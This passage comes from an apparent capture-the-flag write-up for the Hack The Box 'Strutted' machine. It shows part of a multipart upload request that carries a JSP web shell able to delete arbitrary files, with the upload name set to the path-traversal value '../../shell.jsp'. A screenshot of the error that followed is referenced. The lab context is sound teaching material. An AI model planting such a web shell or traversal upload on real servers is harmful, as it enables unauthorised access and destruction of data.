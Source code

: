 ```
                    output = "Path is not a directory.";
                }
            } else {
                output = "No directory path provided.";
            }
        } else if ("delete".equals(action)) {
            // Delete files
            String filePath = request.getParameter("path");
            if (filePath != null) {
                File file = new File(filePath);
                if (file.delete()) {
                    output = "File deleted: " + filePath;
                } else {
                    output = "Failed to delete file: " + filePath;
                }
            } else {
                output = "No file path provided.";
            }
        } else {
            // Unknown operation
            output = "Unknown action: " + action;
        }
    } catch (Exception e) {
        output = "Error: " + e.getMessage();
    }

    // Return the result
    response.setContentType("text/plain");
    out.print(output);
%>
-----------------------------30214330314442822631212062236
Content-Disposition: form-data; name="top.UploadFileName"

../../shell.jsp
-----------------------------30214330314442822631212062236--

```

Now click on send to send the request to the webserver.

I got this error: 

<img src='/images/HTB_Strutted/image 10.png'>
